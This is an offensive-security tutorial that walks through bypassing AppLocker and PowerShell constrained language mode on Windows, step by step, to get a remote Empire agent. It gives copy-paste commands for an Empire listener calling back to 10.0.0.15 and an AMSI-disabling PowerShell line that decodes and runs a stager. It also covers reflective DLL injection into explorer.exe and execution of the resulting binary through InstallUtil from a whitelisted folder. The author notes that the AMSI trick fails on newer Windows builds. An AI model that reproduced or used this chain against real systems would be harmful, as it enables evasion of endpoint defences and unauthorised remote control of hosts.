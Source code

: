 # Bypassing Applocker and Powershell contstrained language mode

## Using Reflective Injection and Certutil

This technique involves packing everything together several times to bypass all the security mechanisms. I based this on the [awesome article ](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)from Improsec called "Babushka dolls" and elements from it's Github project.

**Edit: Sadly after Windows 10 1803 and onwards this trick doesn't work for bypassing AMSI any longer. AMSI now uses a scanbuffer instead of scanstring which was previously used.**

### Generating listener and stager in Empire

Set up a listener and generate a stager. I've put all the commands below for easy copypaste.

```text
./Empire
listeners
uselistener
set Host 10.0.0.15
set Port 80
execute
back
usestager multi/launcher
set Listener http
generate
```

![](../.gitbook/assets/image-21.png)

![](../.gitbook/assets/image-20.png)

### ReflectivePick with Visual Studio

We are now going to write the stager we generated into the ReflectivePick project.

Open the [PowerPick project ](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick/ReflectivePick)in VS. It may be necessary to set the target to x64. Project -&gt; ReflectivePick properties -&gt; Configuration Manager -&gt; Platform

![](../.gitbook/assets/image-23.png)

Add the base64 from the stager where appropriate.

![](../.gitbook/assets/image-26.png)

`wchar_t* argument = L"[Ref].Assembly.GetType('System.Management.Automation.sAmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);$encoded = \"BASE64STRING\";$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded));$decoded | Out-File -FilePath C:\Windows\Tasks\out.txt;IEX $decoded"; //Output debug`

This includes an output write for demonstration purposes. You can remove it if you desire.

Compile the dll to `ReflectivePick_x64.dll`

![](../.gitbook/assets/image-39.png)

### Execution

We can now try to run the dll with `rundll32.exe .\ReflectivePick_x64.dll,Void` but as you will soon discover, AMSI picks up the Empire stager during runtime.

![](../.gitbook/assets/image-16.png)

Disable AMSI however, and you get an agent back.

![](../.gitbook/assets/image-57.png)

You can also view the base64-decoded stager payload in `c:\windows\tasks\out.txt`

![](../.gitbook/assets/image-9.png)

We can't rely on manually disabling AMSI, so we are going to run it through a few more hoops.

### Load the DLL into another process

To avoid creating a new process and loading the non-whitelisted DLL we are going to reflectively inject it into a process using [Invoke-ReflectiveInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1).

Use the following commands in PS to encode the DLL to base64 and pipe the results to a file. Don't worry if the commands take a few seconds to run. I have also noticed that Powershell adds a newline at the bottom of the file when Base64-encoding like this so manually remove that if it is present.

```text
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\dll.txt"
```

![](../.gitbook/assets/image-14.png)

Now you want to download [Invoke-ReflectivePEInjection](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) to the working directory and open it in a text editor. At the bottom of the file, add the following lines, where we copypaste the contents of `dll.txt` to the `$dllData` object. This will ensure the dll is reflectively injected into the `explorer.exe` process during runtime.

```text
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

![](../.gitbook/assets/image-51.png)

### Compile to an EXE using VS

In powershell, base64 encode the entire script. Remove the newline at the bottom of the output file if present.

```text
$Content = Get-Content .\Invoke-ReflectivePEInjection.ps1 -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\users\chris\Desktop\PowerTools-master\PowerPick\bin\x64\Debug\pe.txt"
```

![](../.gitbook/assets/image-49.png)

Open the [Bypass project](https://github.com/MortenSchenk/Babuska-Dolls/tree/master/Bypass) in VS and copypaste the base64 into the encoded variable. Compile to `Bypass.exe` with VS.

![](../.gitbook/assets/image-33.png)

### Final execution

Use `installutil.exe` or similar [LOLbBns ](https://github.com/LOLBAS-Project/LOLBAS/blob/master/LOLBins.md)to execute `Bypass.exe`. If Applocker is present, execute it from a whitelisted directory such as `C:\Windows\Tasks`

```text
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```

![](../.gitbook/assets/image-13.png)

![](../.gitbook/assets/image-19.png)

Thrilling! We bypassed both Applocker and Powershell constrained language mode and got an Empire agent back.

